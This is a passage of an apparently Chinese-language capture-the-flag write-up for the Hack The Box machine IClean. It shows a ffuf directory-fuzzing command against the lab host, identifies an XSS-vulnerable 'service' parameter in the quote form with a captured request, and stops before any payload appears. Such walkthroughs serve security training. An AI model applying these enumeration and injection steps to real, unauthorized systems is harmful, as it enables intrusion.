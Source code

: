 ```yaml
---
render_with_liquid: false
layout: post
title: IClean - Linux | Hack The Box
category: [Hack The Box]
tags: [fuzz, ffuf, xss, ssti, qpdf]
---
```


![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/4e267c4f42237dfe.png)

## Enumeration

### ffuf

爆破目录：

```
ffuf -c -t 300 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://capiclean.htb/FUZZ
```

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/c41376724dca7971.png)

## Initial Foothold

### XSS

发送联系方式处存在 XSS：http://capiclean.htb/quote

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/a210a831a69f8a76.png)

```http
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 92
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

service=Carpet+Cleaning&service=Tile+%26+Grout&service=Office+Cleaning&email=test%40gmal.com
```

service 参数 xss payload 如下:
